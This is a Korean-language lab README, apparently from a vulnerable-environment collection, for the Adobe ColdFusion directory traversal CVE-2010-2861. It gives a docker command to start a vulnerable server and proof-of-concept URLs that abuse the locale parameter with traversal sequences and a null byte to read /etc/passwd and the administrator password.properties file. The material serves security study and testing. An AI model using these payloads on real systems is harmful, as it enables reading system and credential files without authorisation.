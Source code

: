 # Adobe ColdFusion 디렉토리 순회 취약점 (CVE-2010-2861)


Adobe ColdFusion은 1995년 J. J. Allaire가 만든 상업용 웹 애플리케이션 개발 컴퓨팅 플랫폼입니다

Adobe ColdFusion 9.0.1 이전 버전에는 디렉토리 순회 취약성이 있으며, 이를 통해 원격 공격자가 로케일 매개 변수를 통해 (1) CFIDE/administrator/설정/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2e packaging/editarchive.cfm 및 (5) Enter.cfm을 CFIDE/administrator/를 읽을 수 있습니다.

## 환경 설정

다음 명령을 실행하여 Adobe CouldFusion 8.0.1 서버를 시작합니다.

```
docker compose up -d
```

서버를 시작하는 데 1~5분 정도 걸릴 수 있습니다.그 후 방문.http://your-ip:8500/CFIDE/administrator/enter.cfm초기화 페이지를 보려면 암호를 입력합니다. admin서버 전체를 초기화합니다.

## POC

파일을 읽어오기 위해 /etc/passwd 경로로 http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en:

![](1.png)

다음을 통해 백그라운드 관리자 암호 읽기를 읽어옵니다.
http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/ password.properties%00en:

![](2.png)
